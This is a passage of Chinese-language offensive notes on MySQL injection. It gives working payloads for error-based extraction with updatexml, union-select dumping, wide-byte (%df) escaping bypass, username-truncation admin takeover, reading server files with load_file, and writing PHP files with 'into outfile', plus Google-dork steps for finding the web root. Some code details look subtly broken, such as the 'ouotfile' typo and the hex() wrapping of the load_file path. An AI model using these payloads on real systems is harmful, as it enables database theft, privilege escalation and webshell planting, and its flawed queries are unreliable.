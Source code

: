 * **列出信息**
  * 列出user表中第一个username，修改limit后的0，可以列出第二个
  ```sql
  ' and updatexml(1,concat(0x7e,(select username from user limit 0,1),0x7e),1)--+      
  ```
  
>当字符列无法爆出信息时，则可以使用hex()函数将爆出的信息转换为16进制，则可以爆出  union select 1,group_concat(hex(username)),3,4 from manage_user

### 【mysql宽字节注入】

* **使用条件**
  当输入1'时发现点也被转义，以ascii字符显示出来时，可以采用宽字节注入绕过过滤

* **使用**
  前提：输入的'号被\进行转义，无法报错
  则可以使用宽字节注入，’号前加上%df
  >有时宽字节无法注入，可能是目标系统脚本使用utf-8编码，只有gbk编码才可以注入


### 【mysql长字节截断攻击】

* **条件**
  管理员和普通用户在一个表中
  用户名有一定长度限制，当普通用户注册时使用
  admin+++++++++++++++++，注册用户名时由于长度超过限制，会自动截断，变成admin，这样相当于增加了一个管理员账号


### 【权限利用】

* **获取根目录**
  * 报错显示
  * 谷歌黑客
  * site:目标网站 warning
  * 遗留文件 phpinfo info test php
  * 漏洞爆路径
  * 读取配置文件

* **文件读取**
  * 要使用hex转换路径，否则会被转义
  ```sql
  id=-1 union select 1,load_file(hex('要读取文件的路径')),2,3
  ```
  >load_file()函数，该函数是用来读取源文件的函数，只能读取绝对路径的网页文件，在使用load_file()时应先找到网站绝对路径

* **文件写入**
  ```sql
  id=-1 union select 1,"<?php phpinfo();?>",3,4,5 into ouotfile '写入文件的路径'
  ```
  >如果php版本为5.2.17时，会自动开启魔术引号，无法进行文件写入，php版本高于5。2.17时，魔术引号默认关闭

&nbsp;

## 其他类型注入

### 【各种提交方式的注入漏洞挖掘】
